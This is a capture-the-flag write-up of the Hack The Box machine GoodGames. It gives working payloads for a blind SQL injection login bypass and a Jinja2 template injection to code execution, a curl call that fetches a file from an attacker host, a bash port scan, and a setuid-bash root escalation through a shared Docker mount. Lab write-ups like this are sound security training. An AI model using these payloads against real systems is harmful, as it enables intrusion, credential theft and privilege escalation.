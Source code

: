 Started with a nmap scan
```
80 Apache httpd 2.4.51
```
The nmap scan shows there is a domain for the site `goodgames.htb`  the site is pretty much a static site the cart don't work and the email subscribe don't work 
Starting a gobuster scan
```
/blog
login
/profile
/signup
/forgot-password
/comming-soon
```
Checking out the login and adding a `'` to the password gives a 500 internal error and with this payload we can extract the database information `email=admin@admin.com' AND (SELECT 1036 FROM (SELECT(SLEEP(5)))QBkC) AND 'jjOV'='jjOV&password=test` we got a database named `main` and we have a table named `user` we got a user `admin@goodgames.htb` with a password hash `2b22337f218b2d82dfc3b...............` cracked it to `supe..............` after looking in found a subdomain called `internal-administration.goodgames.htb` going to fuzz and see if there is anymore did not find anymore sub domains when going to the internal domain its a flask volt instance there not much we can do with the site a lot of its taken out but if we go to the settings page and enter this payload as are name `{{7*7}}` and save it we get `49` back after a lot of enumeration we got code exaction `{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}` using a command like this we can download a file and try to exacute it `{{config.__class__.__init__.__globals__['os'].popen('curl${IFS}10.10.14.2:8000/test').read()}}` now we got a call back as root but were in a docker container since we can read the home folder I ran mount and its a read write file system then I looked at the network adapter and found are ip is `172.19.0.2` so lets see if we can network scan the other host with this command 
`for PORT in {0..1000}; do timeout 1 bash -c "/dev/null" 2>/dev/null && echo "port $PORT is open"; done` 
and we have port `22,80` open so lets see if we can ssh into `augustus` and they do but we cant download anymore stuff as this user so I had to change permissions on linpeas it showed nothing so I had to think and the user home folder is mounted to the docker and we can access it on both host what if we just put bash into the folder and then ran it for the other user and we can get root 
```
As augustus on host machine cp /bin/bash .
As root in the docker container chown root:root bash chmod 4755 bash
./bash -p
```
and now we are root 
